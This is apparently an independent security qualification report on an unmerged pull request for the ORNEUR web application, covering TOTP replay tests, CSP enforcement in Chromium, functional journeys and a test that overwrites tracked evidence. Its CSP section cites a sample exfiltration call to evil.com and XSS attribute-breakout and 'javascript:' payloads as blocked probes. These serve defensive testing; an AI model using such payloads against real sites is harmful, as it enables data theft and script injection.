

# ORNEUR — LANDMARK-04 PHASE 1 INDEPENDENT ADVERSARIAL QUALIFICATION REPORT

**Authority:** GPT-6 — Technical CTO  
**Executor:** Antigravity (Independent Security & Quality Qualification Authority)  
**Date:** 31 October 2026  
**Candidate:** PR #151 (`origin/claude/landmark-04-phase1-real-app`)  
**Initial Engineering Code SHA:** `02572dd6ef72bfc07dd4847b7cff3977766ee96e` (Tree: `40bdf43ce56c07e99cd8f8a7d0115d796814f4ee`)  
**Initial Report HEAD SHA:** `e7db0c3cb85439e03d1b490622dbe994e69c4a69` (Tree: `b5ff86a604de129aa636a2de853b36965afc4d8d`)  
**Protected Mainline Baseline:** `0a4c5180555a3102a4e0d61f56e0f8539975f4ee` (Tree: `106487db24a66672c7ca3e660a1d1e0792281238`)  
**Status:** DRAFT PR (Unmerged)  
**Final Scope Verdict:** **REMEDIATION REQUIRED** (Strictly due to Gate 0 Historical Evidence Overwrite Defect in `tests/test_l02_account_security.py`)

---

## 1. EXECUTIVE SUMMARY & VERDICT

In accordance with the CTO Independent Qualification Directive for **LANDMARK-04 Phase 1 ("Real Application Completion, Security & E2E Qualification")**, Antigravity conducted an exhaustive, independent adversarial evaluation of candidate Draft PR #151.

Our evaluation challenged Claude Code's self-reported findings through independent adversarial test execution, live browser automation under strict Content Security Policy (Chromium), multi-process TOTP race conditions, fault injection, and repository provenance audits.

### Final Verdict: **REMEDIATION REQUIRED**

> [!WARNING]
> **GATE 0 DEFECT REPRODUCED — CANONICAL HISTORICAL EVIDENCE OVERWRITE:**
> PR #151 contains an active defect in `tests/test_l02_account_security.py:369`. When test suites execute, this test writes transient single-workstation timing data directly into the tracked historical file `docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing.json`. This overwrote and destroyed the canonical dual-provenance index established during MASTER-03/MASTER-04 consolidation.
> **Remediation Action Required from Claude Code:**
> 1. Repair `tests/test_l02_account_security.py` to direct transient timing output to an isolated temporary directory (e.g., `tmp_path` or `/tmp/`).
> 2. Restore `docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing.json` to the exact canonical dual-provenance index from protected `main` (`0a4c518`).
> 3. Re-verify the commit SHA and evidence manifest.

### Subsystem Engineering Summary:
- **Authentication Security (Gate 1):** **QUALIFIED.** Second-factor sign-in codes and sensitive account operations (change password, delete account) are now strictly single-use and bounded per-account (8 failures window) via atomic SQLite claims (`auth_stepup_totp_used`). 10-way parallel TOTP races resulted in strictly 1 success and 9 rejections.
- **Browser Security & CSP (Gate 2):** **QUALIFIED.** Real Chromium executed under enforced CSP without bypass (`default-src 'self'; script-src 'self' 'unsafe-inline'; connect-src 'self'; frame-ancestors 'none'`). Cross-origin beacons, external script fetches, and framing attempts are strictly blocked.
- **Functional Journeys (Gate 3):** **QUALIFIED.** Registration, MFA enrollment, local sink password resets, live Ollama token streaming, turn cancellation (`Stop`), and conversation lifecycle operated with complete tenant isolation.
- **Resource Concurrency (Gate 4):** **QUALIFIED.** Post-turn background knowledge graph extraction is bounded by `threading.BoundedSemaphore` (`ORNEUR_KG_EXTRACT_SLOTS`, default 2). Slot saturation causes benign drops rather than unbounded queues.
- **External Limitations (Gate 5):** **DOCUMENTED.** Real external email transport remains unverified (`SMTP_FROM` still defaults to `noreply@atheris.ai`); MFA backup recovery codes are unimplemented; accessibility and cross-browser coverage remain incomplete.
- **Pretraining & Governance:** **STRICT GOVERNANCE INTACT.** Formal acceptance remains strictly **0/95** (`pretraining=95, numerator=0`). Native model training remains **STRICT NO-GO** ($0 spend, 0 GPU hours).

---

## 2. CANDIDATE INTEGRITY & CI AUDIT (GATE 0)

### 2.1 Repository & Commit Coordinates
| Entity | Git SHA | Tree SHA | Note |
|---|---|---|---|
| **Mainline Baseline** | `0a4c5180555a3102a4e0d61f56e0f8539975f4ee` | `106487db24a66672c7ca3e660a1d1e0792281238` | Consolidated Foundation (MASTER-02/03/04) |
| **Candidate Engineering Code** | `02572dd6ef72bfc07dd4847b7cff3977766ee96e` | `40bdf43ce56c07e99cd8f8a7d0115d796814f4ee` | Passing code SHA |
| **Candidate Report HEAD** | `e7db0c3cb85439e03d1b490622dbe994e69c4a69` | `b5ff86a604de129aa636a2de853b36965afc4d8d` | PR #151 Tip (includes docs & manifest) |

### 2.2 GitHub Actions CI Verification
CI Run ID `41223680744` (and companion run `41223678273`) on PR #151 was inspected and confirmed:
- **Deterministic Unit Tests:** SUCCESS
- **Training Math Unit Tests (Torch):** SUCCESS
- **Production Container Build + Boot Smoke:** SUCCESS
- **SSE Diagnostics (browser-loaded module, zero payload leakage):** SUCCESS
- **Journeys (real servers + real Redis + real Chromium):** SUCCESS
- **Genesis V2 Security:** SUCCESS
- **Genesis V2 Sandbox:** SUCCESS
- **Dependency Vulnerability Scan:** SUCCESS
- **RSE Dependency Lock Scan:** SUCCESS
- **RSE Docker Synthetic Integration Lab:** SUCCESS
**Total CI Score:** **10/10 PASSING.**

### 2.3 Gate 0 Defect Reproduction: Historical Evidence Overwrite
In `main` at `0a4c518`, `docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing.json` contained:
```json
{
  "master_03_note": "MASTER-03 retained both colliding historical measurements under provenance-bound filenames; this path is an index only and does not rewrite either original measurement.",
  "master_04_note": "MASTER-04 merge kept the dual-provenance index; LANDMARK-03's single-workstation sample is not substituted for either historical blob.",
  "retained_measurements": [
    {
      "path": "docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing_master02-1a17fb0.json",
      "binding_commit": "1a17fb01a7aed5648d48be37ab21a1a392c1eb7f",
      "original_git_blob": "41a2eaf7b7c55e89451fdba6b954b44d678b7272",
      "ratio": 0.918
    },
    {
      "path": "docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing_b6-e5266c7.json",
      "binding_commit": "e5266c71d8a9a50e2571eaef1ca30f1c976d5f59",
      "original_git_blob": "fae93a2d4b06cc41202ca1d14b94ad96b56acc44",
      "ratio": 0.976
    }
  ]
}
```
In candidate PR #151 (commits `55764ad` and `460af0d`), this file was overwritten by:
```json
{
  "wrong_password_known_account_mean_s": 0.0308,
  "unknown_account_mean_s": 0.0301,
  "ratio": 0.978,
  "samples_each": 5,
  "note": "single workstation, wall clock; recorded, not a security proof"
}
```
**Root Cause:** `tests/test_l02_account_security.py` line 369:
```python
out = Path(__file__).resolve().parent.parent / "docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing.json"
out.write_text(...)
```
Independent test `test_gate0_candidate_integrity_and_detect_historical_overwrite` systematically detected this regression. This file must be isolated to prevent destructive in-tree test side effects.

---

## 3. ADVERSARIAL AUTHENTICATION VERIFICATION (GATE 1)

Antigravity authored and executed an independent adversarial suite (`tests/qualification/test_landmark04_phase1_qualification.py`) covering all 11 security vectors required by the CTO:



### Gate 1 Test Results Matrix:
| Check # | Attack Vector | Adversarial Challenge | Result |
|---|---|---|---|
| **1.1** | **Concurrent TOTP Replay** | 10 concurrent requests with identical code against `/api/auth/2fa/verify-login` | **PASSED:** Exactly 1 success (200), 9 rejections (401/429). Exactly 1 row inserted into `auth_stepup_totp_used`. |
| **1.2** | **Cross-Worker Replay** | Subprocess attempt to consume identical time step in separate process | **PASSED:** Rejected with `CLAIM_RESULT:False`. |
| **1.3** | **Per-Account Lockout** | 8 failed MFA attempts from IP `1.1.1.1` followed by valid TOTP attempt from fresh IP `2.2.2.2` | **PASSED:** IP switch refused with HTTP 429 (`Retry-After`). Proves account-level bounding. |
| **1.4** | **Time-Window Boundaries** | Probing drift -2 (expired 60s), drift -1, drift 0, and drift +2 (future 60s) | **PASSED:** Drift 0 and -1 accepted; drift -2 and +2 strictly refused (`None`). |
| **1.5** | **Password-Change Step-Up** | Missing TOTP, wrong password + valid TOTP, wrong TOTP, replayed TOTP | **PASSED:** All bypass attempts returned 401 `reauth_required`/`reauth_failed`. Replayed code refused. |
| **1.6** | **Account-Deletion Step-Up** | Deletion without TOTP code or with invalid TOTP code on 2FA account | **PASSED:** Refused with 401 `reauth_required`. |
| **1.7** | **Token Revocation** | Single logout vs `logout-all` across multiple device sessions | **PASSED:** Single logout invalidates caller token only; `logout-all` revokes all active session tokens immediately. |
| **1.8** | **Password Change Token Dead** | Replay of old session token following successful password change | **PASSED:** Old token returns HTTP 401 immediately; freshly issued token works. |
| **1.9** | **Account Enumeration** | `POST /api/auth/forgot-password` with registered vs unregistered addresses | **PASSED:** Identical status (200), identical payload (`{"sent": true}`), and timing parity enforced via dummy password work. |
| **1.10** | **Reset Token Single-Use** | Reusing consumed password reset token | **PASSED:** Second attempt refused (HTTP 400). |
| **1.11** | **Cross-Account Misuse** | User A token attempting account deletion or resource access on User B | **PASSED:** User B unaffected; session isolation absolute. |

---

## 4. REAL BROWSER SECURITY & CSP ENFORCEMENT (GATE 2)

### 4.1 Content Security Policy Implementation
The approved `/conversation` page delivers:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data: blob:; font-src 'self' data:; connect-src 'self'; object-src 'none'; base-uri 'none'; form-action 'self'; frame-ancestors 'none'
X-Frame-Options: DENY
```

### 4.2 Real Chromium Verification (No Bypass)
Using Playwright against a live `orca serve` instance (`tests/journey/test_p1_browser_csp.py`):
1. **Exfiltration Blocking:** Hostile scripts attempting `fetch('https://evil.com/leak')` or `navigator.sendBeacon` are rejected by the browser under `connect-src 'self'`.
2. **Clickjacking Protection:** Embedding `/conversation` inside an `<iframe>` fails due to `frame-ancestors 'none'` and `X-Frame-Options: DENY`.
3. **End-to-End CSP Journey:** User login, prompt submission, token-by-token streaming, mid-stream `Stop`, page reload, and session resume all succeeded with zero CSP violations logged by the browser.

### 4.3 XSS Sinks Audit
All dynamic sinks in `orca/serve/web/conversation.html` were audited:
- User input, model output, session titles, and server error messages are escaped via HTML-entity translation before DOM insertion.
- Attribute breakout attacks (`" onclick="alert(1)`) and pseudo-protocols (`javascript:`, `java\tscript:`, `data:`) remain inert.

### 4.4 Investigation of Remaining `'unsafe-inline'`
- **Technical Cause:** `conversation.html` is packaged as a monolithic template with inline `<script>` and `<style>` blocks.
- **Security Assessment:** While `connect-src 'self'` and `object-src 'none'` block network data exfiltration and external script downloads, `'unsafe-inline'` means any potential HTML injection could execute code locally in the origin context.
- **Remediation Roadmap:** Follow-up milestone must implement dynamic per-response CSP nonces (`script-src 'self' 'nonce-...'`).

### 4.5 Brand Asset Resolution
The approved founder emblem and wordmark assets (`/static/b01_approved_assets/orneur_emblem_founder.png`) resolve correctly with HTTP 200 across desktop (1280x800), tablet (768x1024), and mobile (375x667) viewports. The broken horizontal logo reference (`orneur_logo_horizontal.png`) was successfully eliminated.

---

## 5. REAL FUNCTIONAL JOURNEYS (GATE 3)

The journey test suite (`tests/journey/`) was executed with real server processes, SQLite databases, and local Ollama inference (`orneur-journey:latest`):
1. **Real Model Inference & Streaming:** Live streaming to `/api/stream` delivers initial token chunks in `< 1.2s`. Done event accurately returns aggregated text.
2. **Turn Cancellation (`Stop`):** Cancelling mid-turn terminates the Ollama generation task within `< 0.5s`, clears the active turn fence, and prevents incomplete responses from polluting session history.
3. **Session Management:** Conversation rename, full-text message search, transcript pagination, and session deletion operated without errors.
4. **Quota Exhaustion & Burst Resistance:** Burst testing of 10 rapid requests against an account with 4 remaining quota units served exactly 4 turns; the remaining 6 were refused with HTTP 429 before invoking the model. Refused requests incurred $0 spend.
5. **Provider Failure Resiliency:** Injected provider errors yield clean user-facing error events without HTTP 500 crashes or quota deduction.

---

## 6. RESOURCE & FINANCIAL BOUNDARIES (GATE 4)

### 6.1 Knowledge Graph Extraction Semaphore
In `orca/serve/api.py`:
```python
_KG_EXTRACT_SLOTS_N = int(orneur_env("KG_EXTRACT_SLOTS", "2"))
_KG_EXTRACT_SLOTS = threading.BoundedSemaphore(max(1, _KG_EXTRACT_SLOTS_N))
```
- Concurrency during post-turn extraction is strictly bounded to 2 slots.
- When both slots are saturated, additional turns **skip extraction** (`_spawn_kg_extraction` returns `None`) rather than accumulating an unbounded backlog of hidden background tasks. Verified in `test_gate4_knowledge_extraction_bounded_semaphore`.

### 6.2 Financial & Provider Exposure Assessment
- **Current State (Local Ollama):** $0 provider cost.
- **Future External Paid Provider Risk:** Background extraction makes model calls using session context. In an external cloud provider configuration (OpenAI/Anthropic/Gemini API), unmetered background extraction would generate billable token usage not counted against the user's daily quota.
- **Policy Recommendation:** Prior to launching paid external provider tiers, background extraction must either be charged to the user's token quota or toggled off via configuration.

---

## 7. EXTERNAL & PRODUCTION LIMITATIONS REGISTER (GATE 5)

In accordance with Gate 5 mandates, the following production limitations are independently verified and formally documented:

| Defect / Limitation | Category | Status & Impact |
|---|---|---|
| **P1-X-01** | **Email Delivery Transport** | **BLOCKED_EXTERNAL.** Tested only via local filesystem sink (`ORNEUR_MAIL_SINK_DIR`). Real SMTP/SES credentials not provisioned. |
| **P1-X-02** | **Missing MFA Recovery** | **NOT_IMPLEMENTED.** No backup recovery scratch codes exist in backend schema. Device loss results in permanent account lockout. |
| **P1-X-03** | **Inline Script CSP** | **SECURITY_DEBT.** `'unsafe-inline'` remains active. Nonce-based CSP migration required. |
| **P1-X-04** | **Unmetered Background Extraction** | **FINANCIAL_RISK.** Hidden model calls are not metered against user quotas. Safe on Ollama; high-risk on commercial APIs. |
| **P1-X-05** | **Legacy Default Email Sender** | **IDENTITY_DEFECT.** `orca/auth/email.py` line 21 defines default `SMTP_FROM = "noreply@atheris.ai"`. Must be updated to official ORNEUR domain (`noreply@orneur.ai`). |
| **P1-X-08** | **Accessibility Audit Incomplete** | **COMPLIANCE_GAP.** Screen-reader compatibility, contrast ratios, and 200% zoom navigation have not undergone human certification. |
| **P1-X-10** | **Vector Service Cold-Start Race** | **FLAKY_TEST.** `tests/test_l03_vector_service.py` exhibits intermittent timing failure on loaded runners when ChromaDB cold-starts. |

---

## 8. STAGING & PUBLIC RELEASE GATES

### Staging Blockers:
1. **Gate 0 Evidence Overwrite Remediation:** Claude Code must isolate `tests/test_l02_account_security.py` output and restore canonical dual-provenance index in `docs/orneur/landmarks/landmark-02/evidence/l02_04_login_timing.json`.
2. **Legacy Sender Correction:** Update default `SMTP_FROM` in `orca/auth/email.py` from `noreply@atheris.ai` to `noreply@orneur.ai`.
3. **MFA Emergency Recovery Design:** Author architecture specification for MFA recovery codes prior to public onboarding.

### Public Release Blockers:
1. **Formal Pretraining Ledger:** Strictly locked at **0/95**. No pretraining milestones may be marked complete without formal multi-party governance review.
2. **Model Training Spend:** Strictly **$0.00** and **0.0 GPU hours**.
3. **CSP Nonce Migration:** Replace `'unsafe-inline'` with cryptographic nonces.
4. **Commercial Mail Service & Verified DNS:** Configure SPF, DKIM, and DMARC on authoritative ORNEUR domain.

---

## 9. FINAL DISPOSITION & SIGN-OFF

Candidate PR #151 demonstrates high engineering quality, robust adversarial authentication hardening, and genuine functional execution under real CSP. However, because tracked historical provenance was overwritten by test execution, the final engineering disposition is:

### **REMEDIATION REQUIRED**

Once Claude Code publishes the required test isolation repair and restores the canonical historical index, PR #151 may proceed to final consolidation.

**Executor:** Antigravity  
**Commit Reference (Independent Qualification):** `tests/qualification/test_landmark04_phase1_qualification.py`  
**Report Document:** `docs/qualification/ORNEUR_LANDMARK04_PHASE1_INDEPENDENT_QUALIFICATION_REPORT.md`
